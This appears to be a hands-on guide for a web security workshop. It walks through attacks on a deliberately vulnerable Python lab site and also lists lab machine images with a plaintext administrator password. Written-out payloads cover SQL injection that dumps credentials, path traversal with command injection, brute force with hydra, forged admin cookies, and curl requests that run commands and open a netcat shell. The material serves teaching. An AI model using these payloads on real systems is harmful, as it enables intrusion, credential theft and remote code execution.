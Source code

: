 # Python SafeSite Guide

## Windows

- Region: `us-east-1`
- AMI name: `SecLabClient`
- Description: This is the Windows client with tools for the Python_SafeSite Security Workshop
- Administrator Password: `mBp4t;Jvg6!dskzt3DCHa@w7H?l5.?VE`
- AMI id: `ami-01127273b979fe92b`

## Linux

- Region: `us-east-1`
- AMI name: `SecLabServer`
- Description: This is the Linux server with the vulnerable site for the Python_SafeSite Security Workshop
- AMI id: `ami-01127273b979fe92b`

## Falhas e Ataques

### Home page: SQL Injection

By placing a double quotation mark (") in the search field, the site breaks. This shows that the site is vulnerable to SQL Injection attacks. An aggravating factor is that the developer left the Debug page enabled, showing details of the error and even the engine (SQLite3). With SQL information it is possible to compose an attack that is added to the "where" clause:

- Original:

  - `SELECT * FROM posts WHERE Content LIKE "%"%";`

- Poisoned:

  - `SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";`

    - `X" union select 1, 2 --`
    - `X" union select name, sql from sqlite_master where type='table' --`
    - `X" union select name || ': ' || card, password from secrets --`
    - `X" union select login || ': ' || email, password from logins --`

We have the hashes. Break them in [https://crackstation.net/](https://crackstation.net/):

084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d

| Hash                             | Tipo | Senha       |
| -------------------------------- | ---- | ----------- |
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |

### About us page: Path Traversal, Remote Command Execution

The About Us page clearly displays the contents of text files that are on the server. When you click on one of them, the URL looks like this:

[http://0.0.0.0:8000/about?doc=termo_de_uso](http://0.0.0.0:8000/about?doc=termo_de_uso)

Let's explore:

- `?doc=x`: blank
- `?doc=/etc/passwd`: blank

Probably not see anything because this field receives the file name and does prepend a path and append an extension. Therefore, term_user should become something like /folder/user.txt. If this is true, we can test with relative directories + null bytes and also with multiple file names.

- [http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%00](http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%00)  Breaks with null byte.
- [http://0.0.0.0:8000/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://0.0.0.0:8000/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) displays all files but the first and the last.
- Does it in this context pass the path to the shell? If so, we can try to embed and execute commands ... [http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Oh, dear! Game over.

### Contact us: CSRF + XSS (Firefox)

These XSS attacks do not work in Chrome.

In the first form you can run an XSS, but it is not persisted.

In the second, however, it is persisted but not executed.

To make the attack, the victim has to click on a link made to steal the session or capture the browser, with software such as Beef, for example.

### Sign up: XSS, File Upload

When you create a user, you can upload any file other than a photo to the server. For a PHP site, for example, this file may be a shell that allows remote access to the server.

### Restrict area: HTTP Brute Force

With THC-Hydra, Burp Suite or OWASP ZAP you can easily crack passwords, as there is no time limiter after wrong attempts.

```
hydra -V -s 8000 \
    -l admin -P /opt/wordlists/common_it_passwords.txt \
    0.0.0.0 \
    http-post-form \
    '/login:login=^USER^&senha=^PASS^:Wrong credentials!'
```

### Profile: HTTP Brute Force

Same as the previous item.

### Global: Cookie Tampering (or Poisoning)

When creating a test user named **cleber** with password **12345**, the following cookies were set after login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (this is cleber in MD5)
- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (this is the word "user")

If the hash is the word user, what happens if I switch to admin in MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

By updating the cookie and refreshing, session privileges are instantly increased!

### Global: Directory Search

Since there is no feature that prevents multiple sequential requests, tools such as DIRB, Nikto and ZAP can fuzzy or do list attacks to find hidden directories.

`dirb http://0.0.0.0:8000/`

Found `/status` hidden.

### Status: Form Tampering (or Poisoning)

The `/status` directory only allows the execution of certain commands, and only for the admin user. This restrictions are client-side, so they can be bypassed by changing parameters in the request, so that commands are sent directly to the server.

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8000/status' \
    -X POST \
    --data 'cmd=env'
```

To raise a reverse shell if the server has Netcat installed:

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8000/status' \
    -X POST \
    --data 'cmd=nc -lvp 8443 -e /bin/bash'
```

There are much more breaches. Go explore and have fun!
